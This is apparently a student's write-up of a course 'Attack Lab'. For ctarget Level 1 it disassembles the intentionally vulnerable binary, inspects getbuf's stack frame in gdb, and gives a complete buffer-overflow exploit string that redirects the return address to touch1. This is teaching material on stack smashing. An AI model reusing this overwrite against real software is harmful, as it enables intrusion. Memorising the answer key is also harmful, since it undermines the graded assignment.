 - [Lab 2: Attack Lab](#lab-2--attack-lab)
  * [**Problem Description**](#--problem-description--)
  * [Part 1. *ctarget*](#part-1--ctarget-)
  * [ctarget Level 1: goal](#ctarget-level-1--goal)
  * [ctarget Level 1: Solution](#ctarget-level-1--solution)
    + [Step 1. Disassemble the ctarget](#step-1-disassemble-the-ctarget)
    + [Step 2. Inspect the stack frame of *getbuf*](#step-2-inspect-the-stack-frame-of--getbuf-)
    + [Step 3. Attack the return address](#step-3-attack-the-return-address)
# Lab 2: Attack Lab

> *Covered Concept: Stack Frame, Buffer Overflow, Return Oriented Programming*  

## **Problem Description**

> Two programs, *ctarget* and *rtarget*, are provided. Both program has vulnerabilities of buffer overflow. Make use of the vulnerabilities to achieve the specific goals. Each files has 3 level of challenge. Let's get started.  
> More details in the ***attacklab.pdf***


## Part 1. *ctarget*
---
## ctarget Level 1: goal

Function getbuf is called within CTARGET by a function test having the following C code:
```C
1 void test()
2 {
3     int val;
4     val = getbuf();
5     printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```
When getbuf executes its return statement (line 5 of getbuf), the program ordinarily resumes execution
within function test (at line 5 of this function). We want to change this behavior. Within the file ctarget,
there is code for a function touch1 having the following C representation:
```C
1 void touch1()
2 {
3     vlevel = 1; /* Part of validation protocol */
4     printf("Touch1!: You called touch1()\n");
5     validate(1);
6     exit(0);
7 }
```
Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement,
rather than returning to test. Note that your exploit string may also corrupt parts of the stack not directly
related to this stage, but this will not cause a problem, since touch1 causes the program to exit directly.

---
## ctarget Level 1: Solution

Strategy
>We could make the buffer overflow to change the return address on the stack frame of ***getbuf*** so that the return address is pointed to ***touch1()***  

### Step 1. Disassemble the ctarget
```shell=
 objdump -d ctarget > ctarget.asm
```
Let's see the ***getbuf***
```
    00000000004017a8 <getbuf>:
      4017a8:	48 83 ec 28          	sub    $0x28,%rsp
      4017ac:	48 89 e7             	mov    %rsp,%rdi
      4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
      4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
      4017b9:	48 83 c4 28          	add    $0x28,%rsp
      4017bd:	c3                   	ret    
      4017be:	90                   	nop
      4017bf:	90                   	nop
```  
1. Allocate 0x28 bytes on the stack  
2. The result of \<Gets\> is put on the stack.

```
    00000000004017c0 <touch1>:
      4017c0:	48 83 ec 08          	sub    $0x8,%rsp
      4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
      4017cb:	00 00 00 
      4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
      4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
      4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
      4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
      4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
      4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```
1. The address of *\<touch1\>* is `0x4017c0` 

### Step 2. Inspect the stack frame of *getbuf*

```
     gdb ctarget  # debug the ctarget
     b getbuf     # set a breakpoint at getbuf
     run -q -i ansC.txt  # run the ctarget with ansC.txt as input
     info frame   # inspect the stack frame of getbuf
``` 

Result:  


>(gdb) info frame
Stack level 0, frame at 0x5561dca8:
 rip = 0x4017a8 in getbuf (buf.c:12); saved rip = 0x401976
 called by frame at 0x5561dcb8
 source language c.
 Arglist at 0x5561dc98, args: 
 Locals at 0x5561dc98, Previous frame's sp is 0x5561dca8
 Saved registers:
  rip at 0x5561dca0

   &rArr; saved rip = 0x401976  

Let's see the <test> in the **ctarget.asm** 
The saved rip points to the instruction right after calling     ***getbuf*** in the ***test***  
```=
    0000000000401968 <test>:
      401968:	48 83 ec 08          	sub    $0x8,%rsp
      40196c:	b8 00 00 00 00       	mov    $0x0,%eax
      401971:	e8 32 fe ff ff       	call   4017a8 <getbuf>
      401976:	89 c2                	mov    %eax,%edx
      401978:	be 88 31 40 00       	mov    $0x403188,%esi
      40197d:	bf 01 00 00 00       	mov    $0x1,%edi
      401982:	b8 00 00 00 00       	mov    $0x0,%eax
      401987:	e8 64 f4 ff ff       	call   400df0 <__printf_chk@plt>
      40198c:	48 83 c4 08          	add    $0x8,%rsp
      401990:	c3                   	ret    
      401991:	90                   	nop
```  

rip at 0x5561dca0 &rArr; where the return address is stored 

### Step 3. Attack the return address

The getbuf has allcoate 0x28 bytes on the stack.
&rArr; We should make 0x28 (40) dummy bytes on the stack.  
&rArr; After 0x28 bytes, the buffer overflowed and input has reached the return address of ***getbuf***.  

Since the address of ***touch1*** is `0x4017c0`  
&rArr; The answer would be:  
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```  
Since the machine is little endian, reverse the byte order of address.  


